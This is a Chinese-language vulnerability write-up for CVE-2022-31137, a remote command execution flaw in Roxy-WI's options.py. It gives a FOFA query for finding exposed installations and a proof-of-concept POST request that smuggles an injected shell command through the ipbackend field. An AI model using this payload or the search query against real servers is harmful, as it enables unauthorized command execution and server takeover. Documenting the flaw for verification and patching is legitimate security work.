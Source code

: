 # Roxy-Wi options.py 远程命令执行漏洞 CVE-2022-31137

## 漏洞描述

Roxy-Wi options.py 存在远程命令执行漏洞，攻击者通过漏洞可以执行命令获取服务器权限

## 漏洞影响

```
Roxy-WI
```

## FOFA

```
app="HAProxy-WI"
```

## 漏洞复现

登录页面

![image-20220824143035019](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202208241430258.png)

验证POC

```
POST /app/options.py
  
alert_consumer=1&serv=127.0.0.1&ipbackend=%22%3Bid+%23%23&backend_server=127.0.0.1
```

![image-20220824143046987](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202208241430031.png)